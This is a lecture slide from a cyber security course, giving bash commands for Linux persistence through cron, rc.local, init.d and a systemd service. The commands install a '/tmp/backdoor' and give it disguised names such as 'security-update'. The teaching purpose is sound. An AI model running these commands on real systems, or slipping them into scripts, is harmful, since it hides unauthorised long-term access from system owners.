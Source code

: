 </div>

</div>

<div class="absolute bottom-5 left-5 text-xs text-gray-500">
Course: Cyber Security (4353204) | Unit IV | Lecture 28 | Author: Milav Dabgar
</div>

---
layout: default
---

# Linux Persistence Techniques

<div class="grid grid-cols-2 gap-8">

<div>

## ⏰ Scheduled Task Persistence

### 📅 Cron Jobs
```bash
# User cron job (every 5 minutes)
echo "*/5 * * * * /tmp/backdoor" | crontab -

# System-wide cron
echo "*/5 * * * * root /tmp/backdoor" >> /etc/crontab

# Hourly cron
echo "#!/bin/bash" > /etc/cron.hourly/security-update
echo "/tmp/backdoor" >> /etc/cron.hourly/security-update
chmod +x /etc/cron.hourly/security-update
```

### 🚀 Startup Scripts
```bash
# RC.local persistence
echo "/tmp/backdoor &" >> /etc/rc.local

# Init.d service
cp /tmp/backdoor.sh /etc/init.d/security-update
update-rc.d security-update defaults

# Systemd service
cat > /etc/systemd/system/security.service << EOF
[Unit]
Description=Security Update Service

[Service]
ExecStart=/tmp/backdoor
Restart=always

[Install]
WantedBy=multi-user.target
EOF
systemctl enable security.service
```
